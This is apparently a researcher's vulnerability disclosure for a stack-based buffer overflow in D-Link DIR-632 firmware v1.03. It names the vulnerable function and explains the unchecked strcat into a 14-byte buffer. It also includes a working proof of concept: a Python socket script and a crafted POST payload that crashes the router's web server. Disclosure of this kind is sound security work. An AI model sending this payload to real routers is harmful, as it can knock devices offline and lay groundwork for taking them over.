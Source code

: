 # Overview
Details of the vulnerability found in the dlink router dir-632.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| dir-632    |  fw103    | httpsfiles.dlink.com.auproductsDIR-632REV_AFirmwareFirmware_v1.03b08DIR632A1_FW103B08.bin   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function `FUN_00425fd8` at offset 00427950, where the `strcat` function is called without proper bounds checking. A specially crafted POST request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- When the program processes a user's POST request, if the requested path does not start with a whitelisted prefix such as `auth.tmp` or `HNAP1.txt` etc., and does not have a `.cgi` extension, it proceeds to logic that appends the requested path to /www/ and attempts to locate the corresponding file. However, this concatenation is performed using the unsafe `strcat` function, and the destination buffer can only hold up to `14` bytes of data. If the POST request exceeds this limit, a stack buffer overflow may occur. With carefully crafted input, this vulnerability can be triggered.
![second](./assets/2.png)




# POC
## python script
```python
import socket

host = "172.17.0.177"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## Payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
POST /biurl_groulllllllllllllllt;domain_filtel_domain_filtnectconnewan_pppoe_secondary_dns_00cgi+oconndmconnecr.cgroet;r_info.xml ng
```

# Vulnerability Verification Screenshot
##  dir-632
![3.png](./assets/3.png)

# Discoverer
m202472188@hust.edu.cn
